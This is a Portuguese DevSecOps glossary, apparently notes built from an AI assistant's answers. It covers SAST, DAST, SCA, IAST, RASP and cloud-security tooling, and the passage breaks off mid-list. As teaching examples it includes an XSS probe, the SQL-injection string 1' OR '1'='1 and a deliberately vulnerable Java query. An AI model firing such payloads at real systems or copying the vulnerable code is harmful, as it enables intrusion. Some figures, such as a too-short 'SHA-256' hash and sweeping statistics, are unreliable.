



---
aliases:
---
# Resumo Rapido
### 1. Tipos de Testes e Análises (AST)

_Essas siglas definem **como** e **quando** a segurança é verificada no software._

- **AST (Application Security Testing):** Termo "guarda-chuva" para qualquer ferramenta que testa segurança de software.
    
- **SAST (Static Application Security Testing):**
    
    - _O que é:_ Análise Estática. É o "Teste de Caixa Branca".
        
    - _Detalhe:_ Analisa o código-fonte, byte code ou binários **sem executar** a aplicação. Procura erros de sintaxe insegura.
        
    - _Ferramenta ex:_ **SonarQube**.
        
- **DAST (Dynamic Application Security Testing):**
    
    - _O que é:_ Análise Dinâmica. É o "Teste de Caixa Preta".
        
    - _Detalhe:_ Interage com a aplicação **em execução** (rodando). Simula um hacker tentando invadir de fora (inputs maliciosos, SQL Injection).
        
    - _Ferramenta ex:_ OWASP ZAP, Burp Suite.
        
- **SCA (Software Composition Analysis):**
    
    - _O que é:_ Análise de Composição de Software.
        
    - _Detalhe:_ Não olha o seu código, mas sim as **bibliotecas e dependências** (Open Source) que você usou. Se você importou uma biblioteca Java antiga com falha, o SCA avisa.
        
    - _Contexto:_ Essencial para segurança da cadeia de suprimentos (Supply Chain).
        
- **IAST (Interactive Application Security Testing):**
    
    - _O que é:_ Teste Interativo.
        
    - _Detalhe:_ Um híbrido de SAST e DAST. Um agente é instalado dentro da aplicação e analisa a execução do código em tempo real enquanto testes funcionais rodam.
        
- **RASP (Runtime Application Self-Protection):**
    
    - _O que é:_ Autoproteção em Tempo de Execução.
        
    - _Detalhe:_ Não é apenas um teste, é uma defesa. O software consegue detectar que está sendo atacado e bloquear a ação sozinho.
        

---

### 2. Infraestrutura e Nuvem (Cloud Native)

_Onde o código "mora". Aqui entram as siglas modernas de Cloud Security._

- **IaC (Infrastructure as Code):**
    
    - _O que é:_ Infraestrutura como Código.
        
    - _Detalhe:_ Gerenciar servidores usando arquivos de configuração (ex: Terraform, Ansible) em vez de painéis manuais. Permite versionar a infraestrutura.
        
- **CSPM (Cloud Security Posture Management):**
    
    - _O que é:_ Gerenciamento de Postura de Segurança na Nuvem.
        
    - _Detalhe:_ Ferramenta que monitora AWS/Azure/GCP para ver se você configurou algo errado (ex: deixou um bucket S3 público sem querer).
        
- **CWPP (Cloud Workload Protection Platform):**
    
    - _O que é:_ Plataforma de Proteção de Workloads na Nuvem.
        
    - _Detalhe:_ Foca na segurança do que _roda_ na nuvem (o container, a máquina virtual, a função serverless), protegendo contra malwares e intrusões.
        
- **CNAPP (Cloud-Native Application Protection Platform):**
    
    - _O que é:_ Plataforma de Proteção de Aplicações Cloud-Native.
        
    - _Detalhe:_ É a tendência atual. Combina **CSPM + CWPP + CIEM** em uma única ferramenta. É a "solução completa" para nuvem.
        
- **K8s (Kubernetes):**
    
    - _O que é:_ Abreviação de Kubernetes (8 letras entre o K e o s).
        
    - _Detalhe:_ Sistema de orquestração de containers. Em DevSecOps, proteger o K8s é uma das tarefas mais críticas e difíceis.
        

---

### 3. Vulnerabilidades e Métricas

_Como classificamos e medimos os problemas encontrados._

- **CVE (Common Vulnerabilities and Exposures):**
    
    - _O que é:_ É o "RG" de uma vulnerabilidade.
        
    - _Detalhe:_ Uma lista pública mundial. Exemplo: `CVE-2021-44228` (Log4Shell). Se o scanner (Tenable) achou algo, ele te dará o código CVE.
        
- **CVSS (Common Vulnerability Scoring System):**
    
    - _O que é:_ A "Nota" da vulnerabilidade.
        
    - _Detalhe:_ Vai de 0.0 a 10.0. Ajuda a priorizar.
        
        - 0-3.9: Baixa
            
        - 4.0-6.9: Média
            
        - 7.0-8.9: Alta
            
        - 9.0-10.0: Crítica
            
- **CWE (Common Weakness Enumeration):**
    
    - _O que é:_ A categoria do erro.
        
    - _Detalhe:_ Enquanto CVE é a falha específica, CWE é o "tipo" (ex: CWE-79 é Cross-Site Scripting).
        
- **NVD (National Vulnerability Database):**
    
    - _O que é:_ O banco de dados do governo dos EUA que lista todos os CVEs.
        
- **Zero-Day (0-day):**
    
    - _O que é:_ Vulnerabilidade de "Dia Zero".
        
    - _Detalhe:_ Uma falha que os hackers descobriram, mas o fabricante do software ainda não conhece ou não criou a correção. Não há "vacina" (patch) ainda.
        

---

### 4. Operações de Defesa e Resposta

_O dia a dia de monitoramento e reação (onde entra OpenCTI e Tenable)._

- **SIEM (Security Information and Event Management):**
    
    - _O que é:_ Gerenciamento e Correlação de Eventos.
        
    - _Detalhe:_ Centraliza logs de toda a empresa (firewall, servidores, antivírus) para detectar padrões de ataque. Ferramentas: Splunk, Elastic, Sentinel.
        
- **SOAR (Security Orchestration, Automation, and Response):**
    
    - _O que é:_ Orquestração e Resposta Automatizada.
        
    - _Detalhe:_ Se o SIEM detecta um ataque, o SOAR pode executar um script automático para bloquear o IP do atacante no firewall sem intervenção humana.
        
- **SOC (Security Operations Center):**
    
    - _O que é:_ O time/local físico onde os analistas de segurança monitoram as telas 24/7.
        
- **CTI (Cyber Threat Intelligence):**
    
    - _O que é:_ Inteligência de Ameaças.
        
    - _Detalhe:_ Coleta de dados para entender táticas, técnicas e procedimentos (TTPs) dos hackers. (Área do **OpenCTI**).
        

---

### 5. Processos e Governança

_Termos administrativos e de fluxo de trabalho._

- **CI/CD (Continuous Integration / Continuous Delivery):**
    
    - _O que é:_ A esteira automática de software.
        
    - _Detalhe:_ O "tubo" por onde o código passa. O objetivo do DevSecOps é colocar ferramentas de segurança (SAST/DAST) _dentro_ do CI/CD.
        
- **SBOM (Software Bill of Materials):**
    
    - _O que é:_ Lista de Materiais de Software.
        
    - _Detalhe:_ Um "inventário" completo de todos os componentes que compõem seu software. Muito exigido hoje em dia para auditoria.
        
- **OWASP (Open Web Application Security Project):**
    
    - _O que é:_ Fundação mundial sem fins lucrativos que define padrões de segurança web.
        
    - _Destaque:_ **OWASP Top 10** (a lista das 10 falhas mais críticas da web). Todo DevSecOps tem que saber isso de cor.
        
- **MTTR (Mean Time to Remediate/Response):**
    
    - _O que é:_ Tempo Médio para Remediação.
        
    - _Detalhe:_ KPI (indicador) importante. Quanto tempo seu time demora entre descobrir uma falha crítica e aplicar a correção?
        

---

### Dica para Anotação:

Se você tiver que priorizar para aprender **hoje**, foque neste trio:

1. **CI/CD** (Onde tudo acontece).
    
2. **SAST/DAST** (As principais ferramentas).
    
3. **CVE/CVSS** (Como medir o risco).
    

Quer que eu explique com mais detalhes alguma dessas categorias específicas, como por exemplo, o **OWASP Top 10**?

---
Vou criar uma documentação completa e avançada sobre as siglas de DevSecOps no mesmo nível de profundidade dos documentos anteriores.


# DevSecOps - Glossário Técnico de Siglas e Conceitos

**Tags:** #devsecops #glossary #security-fundamentals #ast #cloud-security #vulnerability-management
**Relacionado:** [[SonarQube]], [[Tenable]], [[XM-Cyber]], [[CI-CD]], [[Cloud-Security]]

---

## 📋 Índice

1. [Application Security Testing (AST)](#application-security-testing-ast)
2. [Infraestrutura e Cloud Native](#infraestrutura-e-cloud-native)
3. [Vulnerabilidades e Métricas](#vulnerabilidades-e-métricas)
4. [Operações de Defesa e Resposta](#operações-de-defesa-e-resposta)
5. [Processos e Governança](#processos-e-governança)
6. [Tabelas Comparativas](#tabelas-comparativas)

---

## 🔬 Application Security Testing (AST)

### AST - Application Security Testing

**Definição:** Termo "guarda-chuva" que engloba **todas** as metodologias e ferramentas usadas para identificar vulnerabilidades de segurança em aplicações de software.

**Subcategorias principais:**

```mermaid
graph TD
    AST[Application Security Testing] --> SAST[Static Analysis]
    AST --> DAST[Dynamic Analysis]
    AST --> IAST[Interactive Analysis]
    AST --> SCA[Composition Analysis]
    AST --> RASP[Runtime Protection]
    
    SAST --> S1[Code Review]
    DAST --> D1[Black-box Testing]
    IAST --> I1[Gray-box Testing]
    SCA --> SC1[Dependency Scanning]
    RASP --> R1[Self-Protection]
````

**Quando usar cada tipo:**

|Fase do SDLC|Tipo AST Recomendado|Motivo|
|---|---|---|
|**Coding**|SAST + SCA|Detecta bugs antes do commit|
|**Build**|SAST + SCA + Secrets Scanning|Valida código compilado|
|**Test**|DAST + IAST|Testa aplicação rodando|
|**Deploy**|RASP|Proteção em produção|
|**Runtime**|RASP + WAF|Defesa ativa|

---

### SAST - Static Application Security Testing

**Definição:** Análise **estática** de código-fonte, bytecode ou binários **sem executar** a aplicação. Também conhecido como **White-box Testing**.

**Como funciona:**

```yaml
Processo SAST:
  1. Parser: Converte código em AST (Abstract Syntax Tree)
  2. Data Flow Analysis: Rastreia fluxo de dados (tainted input)
  3. Control Flow Analysis: Analisa caminhos de execução
  4. Pattern Matching: Compara com regras de segurança
  5. Report: Gera findings com linha exata do código

Exemplo de detecção:
  Input: userInput (linha 10) - TAINTED
  Flow: query = "SELECT * FROM users WHERE id=" + userInput (linha 15)
  Sink: stmt.execute(query) (linha 20)
  Detection: SQL Injection (CWE-89)
```

**Vantagens vs Limitações:**

```diff
✅ Vantagens:
+ Detecta vulnerabilidades cedo (Shift-Left)
+ Analisa 100% do código (inclusive caminhos não testados)
+ Identifica linha exata do problema
+ Não requer aplicação rodando
+ Integração fácil com IDE (feedback em tempo real)

❌ Limitações:
- Falsos positivos (10-40% dependendo da ferramenta)
- Não detecta vulnerabilidades de runtime (race conditions)
- Não valida configurações de infraestrutura
- Dificuldade com código dinâmico (eval, reflection)
- Não testa lógica de negócio
```

**Ferramentas SAST por Linguagem:**

|Linguagem|Ferramenta Open-Source|Ferramenta Comercial|
|---|---|---|
|**Java**|SonarQube, SpotBugs, PMD|Checkmarx, Veracode, Fortify|
|**JavaScript/TS**|ESLint + security plugins, SonarQube|Snyk Code, Checkmarx|
|**Python**|Bandit, SonarQube|Checkmarx, Veracode|
|**C/C++**|Cppcheck, Flawfinder|Coverity, Klocwork|
|**.NET/C#**|SonarQube, Security Code Scan|Fortify, Veracode|
|**Go**|gosec, SonarQube|Snyk Code|
|**PHP**|RIPS, SonarQube|Checkmarx|

**Exemplo prático (Java):**

```java
// ❌ SAST detecta: SQL Injection (CWE-89)
public User getUser(String userId) {
    String query = "SELECT * FROM users WHERE id = '" + userId + "'";
    //                                                   ^^^^^^ Tainted input
    return jdbcTemplate.queryForObject(query, User.class);
    //     ^^^^^^^^^^^^^^^^^^^^^^^^^^^ Sink (execution point)
}

// SonarQube Output:
// Rule: java:S3649 "Database queries should not be vulnerable to injection"
// Severity: BLOCKER
// Line: 23
// Taint Flow:
//   1. Source: userId (parameter, line 22)
//   2. Propagation: query concatenation (line 23)
//   3. Sink: queryForObject (line 25)
```

**Configuração típica (SonarQube):**

```properties
# sonar-project.properties
sonar.projectKey=my-java-app
sonar.sources=src/main/java
sonar.java.binaries=target/classes

# Quality Gate
sonar.qualitygate.wait=true

# SAST específico
sonar.java.coveragePlugin=jacoco
sonar.coverage.jacoco.xmlReportPaths=target/site/jacoco/jacoco.xml

# Exclusões
sonar.exclusions=**/test/**,**/generated/**
```

---

### DAST - Dynamic Application Security Testing

**Definição:** Análise **dinâmica** que testa a aplicação **em execução** através de ataques simulados. Também conhecido como **Black-box Testing**.

**Como funciona:**

```yaml
Processo DAST:
  1. Crawling: Mapeia todas as URLs/endpoints da aplicação
  2. Attack Vectors: Injeta payloads maliciosos (XSS, SQLi, etc)
  3. Response Analysis: Analisa respostas do servidor
  4. Vulnerability Confirmation: Valida se ataque foi bem-sucedido
  5. Report: Gera relatório com evidências (request/response)

Exemplo de ataque:
  URL: https://app.com/search?q=test
  Payload: q=<script>alert(1)</script>
  Response: <h1>Results for: <script>alert(1)</script></h1>
  Detection: Reflected XSS (CWE-79)
```

**Vantagens vs Limitações:**

```diff
✅ Vantagens:
+ Detecta vulnerabilidades de runtime (configs, APIs)
+ Baixo índice de falsos positivos (ataque real)
+ Testa aplicação como atacante veria
+ Independente de linguagem/framework
+ Valida correções de SAST

❌ Limitações:
- Detecta tarde (aplicação já deployada)
- Requer aplicação rodando (custo de infra)
- Não cobre 100% do código (apenas paths navegados)
- Lento (crawling + ataques = horas)
- Não identifica linha de código afetada
```

**Ferramentas DAST:**

|Ferramenta|Tipo|Especialidade|
|---|---|---|
|**OWASP ZAP**|Open-Source|Web apps, APIs REST|
|**Burp Suite**|Freemium|Pentest manual + automatizado|
|**Nikto**|Open-Source|Webserver scanning|
|**Acunetix**|Comercial|Web apps, cobertura ampla|
|**Netsparker**|Comercial|Baixo falso positivo|
|**Qualys WAS**|Comercial|Compliance (PCI-DSS)|
|**Tenable.io WAS**|Comercial|Integração com VM|

**Exemplo prático (OWASP ZAP):**

```bash
# Scan automatizado com ZAP
docker run -t owasp/zap2docker-stable zap-baseline.py \
  -t https://app.company.com \
  -r zap-report.html

# Output:
WARN-NEW: Cross Site Scripting (Reflected) [40012] x 3
  https://app.company.com/search?q=ZAP
  https://app.company.com/profile?name=ZAP
  https://app.company.com/comment?text=ZAP

WARN-NEW: SQL Injection [40018] x 1
  https://app.company.com/user?id=1'

FAIL-NEW: Application Error Disclosure [90022] x 2
  https://app.company.com/api/users (500 Internal Server Error)
```

**Configuração CI/CD (GitHub Actions):**

```yaml
name: DAST Scan

on:
  schedule:
    - cron: '0 2 * * *'  # Daily at 2 AM
  workflow_dispatch:

jobs:
  zap_scan:
    runs-on: ubuntu-latest
    steps:
      - name: ZAP Baseline Scan
        uses: zaproxy/action-baseline@v0.7.0
        with:
          target: 'https://staging.company.com'
          rules_file_name: '.zap/rules.tsv'
          cmd_options: '-a -j'  # AJAX spider, JSON report
      
      - name: Upload Results
        uses: actions/upload-artifact@v3
        with:
          name: zap-report
          path: report_html.html
      
      - name: Fail on High/Critical
        run: |
          HIGH=$(jq '.site[].alerts[] | select(.riskcode == "3" or .riskcode == "4") | length' report_json.json)
          if [ $HIGH -gt 0 ]; then
            echo "❌ Found $HIGH High/Critical vulnerabilities"
            exit 1
          fi
```

---

### SCA - Software Composition Analysis

**Definição:** Análise de **componentes de terceiros** (bibliotecas open-source, dependências) em busca de vulnerabilidades conhecidas (CVEs).

**Por que é crítico:**

```yaml
Estatísticas (2024):
  - 80-90% do código em aplicações modernas é de terceiros
  - 84% das aplicações têm pelo menos 1 vulnerabilidade em dependências
  - Log4Shell (CVE-2021-44228): Afetou 93% das aplicações Java corporativas
  
Supply Chain Attacks:
  - SolarWinds (2020): Backdoor em biblioteca de update
  - Event-Stream (2018): Malware em package npm
  - UA-Parser-JS (2021): Trojan em package npm popular
```

**Como funciona:**

```yaml
Processo SCA:
  1. Dependency Resolution: Identifica todas as dependências
     - Diretas: package.json, pom.xml, requirements.txt
     - Transitivas: Dependências das dependências
  
  2. Component Identification: Cria "fingerprint" de cada lib
     - Hash do arquivo (SHA-256)
     - Package manager metadata
     - Versão exata
  
  3. Vulnerability Lookup: Consulta databases
     - National Vulnerability Database (NVD)
     - GitHub Advisory Database
     - Sonatype OSS Index
     - Snyk Vulnerability DB
  
  4. License Compliance: Valida licenças
     - GPL (copyleft - requer open-source)
     - MIT (permissiva)
     - Apache 2.0 (permissiva com patentes)
  
  5. Report: Prioriza por exploitabilidade + severity
```

**Ferramentas SCA:**

|Ferramenta|Tipo|Databases|Destaque|
|---|---|---|---|
|**Snyk**|Freemium|Proprietário + NVD|Fix PRs automáticos|
|**Dependabot**|Free (GitHub)|GitHub Advisory|Integração nativa GitHub|
|**OWASP Dependency-Check**|Open-Source|NVD|CLI, multi-linguagem|
|**WhiteSource (Mend)**|Comercial|Próprio + NVD|License compliance|
|**Sonatype Nexus IQ**|Comercial|Sonatype OSS Index|Policy enforcement|
|**JFrog Xray**|Comercial|VulnDB|Integração Artifactory|

**Exemplo prático (Node.js):**

```json
// package.json
{
  "dependencies": {
    "express": "4.17.1",
    "lodash": "4.17.19",  // ⚠️ Vulnerável
    "axios": "0.21.1"     // ⚠️ Vulnerável
  }
}
```

**Scan com Snyk:**

```bash
$ snyk test

Testing /app/package.json...

Organization: company-org
Package manager: npm
Target file: package.json
Open source: yes
Project path: /app

✗ High severity vulnerability found in lodash
  Description: Prototype Pollution
  Info: https://snyk.io/vuln/SNYK-JS-LODASH-1018905
  From: lodash@4.17.19
  Fixed in: 4.17.21
  
✗ Medium severity vulnerability found in axios
  Description: Server-Side Request Forgery (SSRF)
  Info: https://snyk.io/vuln/SNYK-JS-AXIOS-1038255
  From: axios@0.21.1
  Fixed in: 0.21.2

Organization: company-org
Tested 127 dependencies for known issues
Found 2 issues (1 high, 1 medium)
```

**Auto-remediation (Dependabot):**

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: "npm"
    directory: "/"
    schedule:
      interval: "daily"
    open-pull-requests-limit: 10
    
    # Auto-merge security patches
    reviewers:
      - "security-team"
    labels:
      - "dependencies"
      - "security"
    
    # Version constraints
    ignore:
      - dependency-name: "react"
        update-types: ["version-update:semver-major"]
```

**SBOM Generation:**

```bash
# Gerar SBOM (Software Bill of Materials) - CycloneDX format
$ syft packages dir:. -o cyclonedx-json > sbom.json

# SBOM contém:
{
  "components": [
    {
      "type": "library",
      "name": "lodash",
      "version": "4.17.19",
      "purl": "pkg:npm/lodash@4.17.19",
      "hashes": [
        {
          "alg": "SHA-256",
          "content": "a3f7c8e9d2b1c4a5b6f8e7d9c1a2b3d4"
        }
      ]
    }
  ]
}

# Validar SBOM contra vulnerabilidades
$ grype sbom:./sbom.json

NAME     INSTALLED  VULNERABILITY   SEVERITY
lodash   4.17.19    CVE-2020-8203   High
axios    0.21.1     CVE-2021-3749   Medium
```

---

### IAST - Interactive Application Security Testing

**Definição:** Híbrido de **SAST + DAST** que instrumenta a aplicação com agentes para análise em **tempo de execução** durante testes funcionais.

**Arquitetura:**

```yaml
┌─────────────────────────────────────────────────┐
│ Application Runtime                             │
│ ┌─────────────────────────────────────────────┐ │
│ │ IAST Agent (Injected)                       │ │
│ │ ├─ Monitors: HTTP requests, DB queries      │ │
│ │ ├─ Tracks: Data flow (tainted input)        │ │
│ │ └─ Reports: Vulnerabilities to server       │ │
│ └─────────────────────────────────────────────┘ │
│                     ↓                           │
│ ┌─────────────────────────────────────────────┐ │
│ │ Application Code                            │ │
│ │ public void processUser(String input) {     │ │
│ │   String sql = "SELECT * FROM users WHERE"+ │ │
│ │                input;  ← IAST tracks here   │ │
│ │   db.execute(sql);                          │ │
│ │ }                                           │ │
│ └─────────────────────────────────────────────┘ │
└─────────────────────────────────────────────────┘
                      ↓
              IAST Server
         (Analysis & Reporting)
```

**Vantagens vs SAST/DAST:**

|Aspecto|SAST|DAST|IAST|
|---|---|---|---|
|**Falsos Positivos**|Alto (30-40%)|Baixo (5-10%)|**Muito Baixo (1-5%)**|
|**Code Coverage**|100%|20-40%|**60-80%**|
|**Precisão**|Média|Alta|**Muito Alta**|
|**Performance**|Rápido|Lento|**Médio**|
|**Linha de código**|✅ Sim|❌ Não|✅ Sim|
|**Runtime issues**|❌ Não|✅ Sim|✅ Sim|
|**Setup**|Fácil|Médio|**Difícil (agent)**|

**Ferramentas IAST:**

- **Contrast Security** (líder de mercado)
- **Synopsys Seeker** (anteriormente Seeker by Quotium)
- **Hdiv Detection**
- **Checkmarx IAST**

**Exemplo prático (Contrast Security - Java):**

```bash
# Adicionar agente IAST ao runtime
java -javaagent:/path/to/contrast.jar \
     -Dcontrast.api.url=https://app.contrastsecurity.com/Contrast \
     -Dcontrast.api.api_key=YOUR_API_KEY \
     -jar myapp.jar

# Durante testes funcionais (Selenium, JUnit):
# IAST detecta vulnerabilidades automaticamente

# Report gerado:
Vulnerability: SQL Injection (Confirmed)
Location: UserService.java:45
HTTP Request: POST /api/users?id=1' OR '1'='1
Data Flow:
  1. Source: HttpServletRequest.getParameter("id") [line 43]
  2. Propagation: String concatenation [line 45]
  3. Sink: Statement.executeQuery(sql) [line 47]
Evidence: Database error returned - syntax error
Confidence: HIGH (confirmed exploitation)
```

---

### RASP - Runtime Application Self-Protection

**Definição:** Tecnologia de **autoproteção** que detecta e **bloqueia** ataques em **tempo real** durante a execução da aplicação.

**RASP vs WAF:**

```yaml
WAF (Web Application Firewall):
  Location: Network perimeter (outside app)
  Knowledge: Generic attack signatures
  Blocking: Based on HTTP patterns
  Limitation: Não entende contexto da aplicação
  
  Example:
    Request: GET /users?id=1' OR '1'='1
    WAF: Blocks (detected SQL injection pattern)
    Problem: Pode bloquear uso legítimo (' em nomes)

RASP (Runtime Protection):
  Location: Inside application runtime
  Knowledge: Application logic + context
  Blocking: Based on actual execution
  Advantage: Zero false positives
  
  Example:
    Request: GET /users?id=1' OR '1'='1
    RASP: Monitors SQL execution
    Detection: Malicious SQL modification detected
    Action: Blocks query execution + logs attack
    Context: Knows this is SQLi because SQL changed
```

**Modos de operação:**

```yaml
Monitor Mode (Passive):
  - Detecta ataques
  - Loga eventos
  - NÃO bloqueia
  - Usado para tuning (evitar falsos positivos)
  
Block Mode (Active):
  - Detecta ataques
  - Bloqueia execução
  - Retorna erro HTTP 403
  - Modo de produção
  
Virtual Patch:
  - Protege vulnerabilidade conhecida
  - Mesmo sem patch disponível
  - Temporário até correção de código
```

**Ferramentas RASP:**

- **Contrast Protect** (combinado com IAST)
- **Imperva RASP**
- **Signal Sciences (Fastly)**
- **Sqreen (Datadog)**
- **Hdiv Protection**

**Exemplo prático (SQL Injection blocking):**

```java
// Código vulnerável (sem correção)
public User getUser(String userId) {
    String sql = "SELECT * FROM users WHERE id = '" + userId + "'";
    return jdbcTemplate.queryForObject(sql, User.class);
}

// RASP instalado (agent)
// Request malicioso:
GET /api/user?id=1' OR '1'='1

// RASP detecta:
[RASP] SQL Injection detected
Original Query: SELECT * FROM users WHERE id = '1'
Modified Query: SELECT * FROM users WHERE id = '1' OR '1'='1'
                                                ^^^^^^^^^^^^^^^^ MALICIOUS
Action: BLOCKED
Response: HTTP 403 Forbidden

// Log para SIEM:
{
  "event": "attack_blocked",
  "type": "sql_injection",
  "severity": "critical",
  "source_ip": "203.0.113.42",
  "user_agent": "sqlmap/1.6.3",
  "payload": "1' OR '1'='1",
  "blocked": true
}
```

---

## ☁️ Infraestrutura e Cloud Native

### IaC - Infrastructure as Code

**Definição:** Gerenciamento de infraestrutura através de **código versionável** ao invés de configurações manuais em consoles.

**Benefícios:**

```yaml
Versionamento:
  - Git history de todas as mudanças de infra
  - Rollback fácil (git revert)
  - Code review obrigatório (Pull Requests)

Reprodutibilidade:
  - Ambientes idênticos (dev = staging = prod)
  - Sem "snowflake servers"
  - Disaster recovery simplificado

Automação:
  - Deploy via CI/CD
  - Testes automatizados (terraform plan)
  - Validação de compliance

Documentação:
  - Código É a documentação
  - Self-service para devs
```

**Ferramentas IaC:**

|Ferramenta|Tipo|Linguagem|Cloud|Uso|
|---|---|---|---|---|
|**Terraform**|Declarativo|HCL|Multi-cloud|Provisioning|
|**Ansible**|Imperativo|YAML|Agnostic|Config Management|
|**CloudFormation**|Declarativo|JSON/YAML|AWS only|AWS native|
|**Pulumi**|Imperativo|TypeScript/Python|Multi-cloud|Developers|
|**ARM Templates**|Declarativo|JSON|Azure only|Azure native|
|**CDK**|Imperativo|TypeScript/Python|AWS|Programmatic|

**Exemplo Terraform (AWS EC2):**

```hcl
# main.tf
terraform {
  required_version = ">= 1.0"
  
  backend "s3" {
    bucket = "company-terraform-state"
    key    = "prod/ec2/terraform.tfstate"
    region = "us-east-1"
  }
}

provider "aws" {
  region = var.aws_region
}

# Security Group
resource "aws_security_group" "web" {
  name        = "web-server-sg"
  description = "Allow HTTP/HTTPS inbound"
  
  ingress {
    from_port   = 443
    to_port     = 443
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }
  
  egress {
    from_port   = 0
    to_port     = 0
    protocol    = "-1"
    cidr_blocks = ["0.0.0.0/0"]
  }
  
  tags = {
    Environment = "production"
    ManagedBy   = "terraform"
  }
}

# EC2 Instance
resource "aws_instance" "web" {
  ami           = data.aws_ami.ubuntu.id
  instance_type = "t3.medium"
  
  vpc_security_group_ids = [aws_security_group.web.id]
  
  root_block_device {
    encrypted   = true  # ✅ Security best practice
    volume_size = 50
  }
  
  metadata_options {
    http_tokens = "required"  # ✅ IMDSv2 obrigatório
  }
  
  tags = {
    Name = "web-server-prod"
  }
}
```

**IaC Security Scanning (Checkov):**

```bash
# Scan Terraform para misconfigurations
$ checkov -d . --framework terraform

Check: CKV_AWS_8: "Ensure all data stored in the Launch configuration EBS is securely encrypted"
  PASSED for resource: aws_instance.web
  
Check: CKV_AWS_79: "Ensure Instance Metadata Service Version 1 is not enabled"
  PASSED for resource: aws_instance.web

Check: CKV_AWS_24: "Ensure no security groups allow ingress from 0.0.0.0:0 to port 22"
  FAILED for resource: aws_security_group.ssh
  File: /main.tf:45-52
  
  45 | resource "aws_security_group" "ssh" {
  46 |   ingress {
  47 |     from_port   = 22
  48 |     to_port     = 22
  49 |     cidr_blocks = ["0.0.0.0/0"]  ← ❌ SSH aberto para internet
  50 |   }
  51 | }

Passed: 12, Failed: 3, Skipped: 0
```

**Policy as Code (OPA):**

```rego
# policy.rego - Open Policy Agent
package terraform.analysis

deny[msg] {
  resource := input.resource_changes[_]
  resource.type == "aws_s3_bucket"
  not resource.change.after.server_side_encryption_configuration
  
  msg := sprintf("S3 bucket '%s' must have encryption enabled", [resource.address])
}

deny[msg] {
  resource := input.resource_changes[_]
  resource.type == "aws_security_group"
  rule := resource.change.after.ingress[_]
  rule.cidr_blocks[_] == "0.0.0.0/0"
  rule.from_port == 22
  
  msg := sprintf("Security group '%s' allows SSH from internet", [resource.address])
}
```

---

### CSPM - Cloud Security Posture Management

**Definição:** Monitoramento contínuo de configurações cloud (AWS/Azure/GCP) para detectar **misconfigurations** e **compliance violations**.

**Principais verificações:**

```yaml
Identity & Access:
  ✓ IAM users sem MFA
  ✓ Root account usage
  ✓ Credenciais antigas (> 90 dias)
  ✓ Permissões excessivas (overprivileged)
  ✓ Public access keys no código

Storage:
  ✓ S3 buckets públicos
  ✓ Discos sem encryption
  ✓ Backups não configurados
  ✓ Versioning desabilitado

Network:
  ✓ Security Groups permissivos (0.0.0.0/0)
  ✓ VPCs sem Flow Logs
  ✓ Databases expostos à internet
  ✓ SSL/TLS desatualizado

Logging:
  ✓ CloudTrail desabilitado
  ✓ Logs não retidos
  ✓ Monitoring sem alertas
```

**Ferramentas CSPM:**

|Ferramenta|Clouds|Destaque|
|---|---|---|
|**Prisma Cloud (Palo Alto)**|AWS, Azure, GCP, Alibaba|CSPM + CWPP combinado|
|**Wiz**|Multi-cloud|Graph-based risk analysis|
|**Orca Security**|Multi-cloud|Agentless scanning|
|**Lacework**|AWS, Azure, GCP|Behavioral anomaly detection|
|**Aqua CSPM**|Multi-cloud|Container focus|
|**CloudGuard (Check Point)**|Multi-cloud|Threat prevention|
|**AWS Security Hub**|AWS only|Native AWS|
|**Azure Security Center**|Azure only|Native Azure|

**Exemplo de finding CSPM:**

```yaml
Finding: S3-001
Severity: CRITICAL
Service: Amazon S3
Resource: s3://company-backups
Region: us-east-1

Issue: Publicly Accessible S3 Bucket
Description: |
  Bucket 'company-backups' allows public read access.
  This exposes 45,000 objects (1.2TB) to the internet.
  
Evidence:
  ACL: public-read
  Bucket Policy: 
    {
      "Effect": "Allow",
      "Principal": "*",
      "Action": "s3:GetObject",
      "Resource": "arn:aws:s3:::company-backups/*"
    }
  
Impact:
  - Data Exfiltration Risk: HIGH
  - Contains: Database backups, customer PII
  - Compliance: GDPR violation, SOC2 non-compliant

Remediation:
  1. Immediate: Block public access
     aws s3api put-public-access-block \
       --bucket company-backups \
       --public-access-block-configuration \
       "BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true"
  
  2. Enable encryption:
     aws s3api put-bucket-encryption \
       --bucket company-backups \
       --server-side-encryption-configuration \
       '{"Rules":[{"ApplyServerSideEncryptionByDefault":{"SSEAlgorithm":"AES256"}}]}'
  
  3. Enable versioning (accidental deletion protection)
  4. Configure lifecycle policy (auto-delete old backups)

Similar Findings: 12 other public buckets detected
```

**Compliance Frameworks:**

```yaml
CIS Benchmarks:
  - CIS AWS Foundations Benchmark v1.5
  - CIS Azure Foundations Benchmark v2.0
  - CIS GCP Foundations Benchmark v1.3
  
  Example rules:
    ✓ 1.1 - Maintain current contact details
    ✓ 1.12 - Ensure no root user access key exists
    ✓ 2.1.1 - Ensure S3 bucket encryption is enabled
    ✓ 4.3 - Ensure VPC flow logging is enabled

Regulatory:
  - PCI-DSS (Payment Card Industry)
  - HIPAA (Healthcare)
  - GDPR (Data Protection)
  - SOC 2 (Security Controls)
  - ISO 27001 (Information Security)

Custom Policies:
  - Company security baseline
  - Industry-specific requirements
  - Merger/acquisition due diligence
```

---

### CWPP - Cloud Workload Protection Platform

**Definição:** Proteção de **workloads** executando em cloud (VMs, containers, serverless) contra malware, exploits e intrusões.

**Diferença CSPM vs CWPP:**

```yaml
CSPM (Configuração):
  Focus: "Está configurado corretamente?"
  Examples:
    - S3 bucket é público?
    - Security Group permite SSH?
    - Encryption habilitado?
  
CWPP (Runtime):
  Focus: "O que está RODANDO está seguro?"
  Examples:
    - Malware detectado no container?
    - Process injection attempt?
    - Outbound connection to C2 server?
```

**Componentes CWPP:**

```yaml
1. Vulnerability Management:
   - Scan de imagens de container
   - Patch management para VMs
   - Kernel vulnerability detection

2. Runtime Protection:
   - Anti-malware
   - File integrity monitoring (FIM)
   - Process monitoring
   - Network traffic analysis

3. Compliance:
   - CIS Docker Benchmark
